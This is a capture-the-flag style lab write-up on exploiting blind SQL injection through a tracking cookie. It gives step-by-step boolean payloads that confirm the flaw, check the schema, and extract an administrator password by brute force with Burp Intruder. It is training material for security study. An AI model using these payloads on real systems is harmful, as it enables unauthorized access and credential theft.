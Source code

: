 # Lab: Blind SQL injection with conditional responses

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result: Page contains "Welcome back" message in TRUE case
- database contains table 'users' with columns 'username' and 'password'
- Goal: Login as user 'administrator'

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=qnLH78fKAPMJdjw7; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can not see any result of the query. However, if we can craft requests that allow for dedicated `good` and `bad` answers, we can ask the database anything it can answer with `TRUE` or `FALSE`.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `good` or `bad` answers.

#### The good case

For the `good` query, we take an input that always evaluates to `TRUE`, like `1=1`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=1--'
```

The content of the cookie is

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=1--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Results in "Welcome back"

#### The bad case

For the `good` query, we take an input that always evaluates to `FALSE`, like `1=2`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=2--'
```

The content of the cookie is

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=2--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Does not result in "Welcome back"

As we found vulnerable parameter, I omit session value from now on.

### Confirm expected table

Confirm that the `users` table actually exist. For this, select a string literal from the table and compare the result to the literal.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from users LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from users LIMIT 1)='x'--`

--> Results in "Welcome back"

#### Verify negative result

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from usersX LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from usersX LIMIT 1)='x'--`

--> NO "Welcome back"

### Verify columns exist as expected

Now onto the same verification regarding the column names

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--`

--> Results in "Welcome back". Negative case with different column name verified.

### Get length of password (could be hash as well)

Find out the length of the password. For this, we use the `LENGTH` function of the database and compare it with numbers.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--`

--> NO "Welcome back", password is not of length 1

Checking with '>' instead of '=' results in "Welcome back", so password is >

Brute force length with Burp Intruder (Sniper, Payload is '1' argument in query)

![Enumerate length of password](img/length_of_password.png)

![Enumerate length of password full results](img/length_of_password_result.png)

--> Password is exactly 20 characters long

### Enumerate password of administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--`

We find out that the first character is not an `a`, but using Burp Suite Intruder this can be automated easily. With the free version, this is rather slow, but scripting it in python is not difficult either.

![Enumerate first character of password](img/enumerate_password_first.png)

First character is 'k'

#### Automate this

Now automate this for all characters, again using either Burp Intruder or a python script.

Attack type: *Cluster bomb*

![Cluster bomb setup](img/enumerate_password_cluster_bomb.png)

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force (see above) - for real-life, add special characters

This results in these responses with the 'Welcome Back' message:

![Result of password enumeration](img/enumerate_password_result.png)

Reordering it numerically according to Payload 1 will result in the password: kdd113dnq7t34h70nhj7

## Try login

![Login successful](img/Win.png)
